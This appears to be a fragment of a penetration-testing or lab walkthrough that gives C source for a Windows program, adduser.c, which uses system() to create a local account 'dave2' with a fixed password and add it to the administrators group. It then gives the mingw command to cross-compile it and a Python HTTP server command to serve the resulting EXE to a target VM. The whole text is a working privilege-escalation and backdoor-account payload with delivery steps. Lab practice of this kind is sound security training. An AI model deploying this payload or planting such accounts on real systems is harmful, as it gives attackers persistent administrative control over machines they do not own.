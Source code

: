 # adduser.c
Create adduser.c (creates local admin dave2 with password Password123!):

/* adduser.c */
#include <stdlib.h>
int main() {
  system("net user dave2 Password123! /add");
  system("net localgroup administrators dave2 /add");
  return 0;
}


Cross-compile to a Windows x64 EXE (if you have mingw-w64):

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe


(If you don't have mingw, see alternate methods below.)

Serve the EXE with a simple HTTP server from the folder containing adduser.exe:

python3 -m http.server 80


Keep this running while you work on the Windows VM.
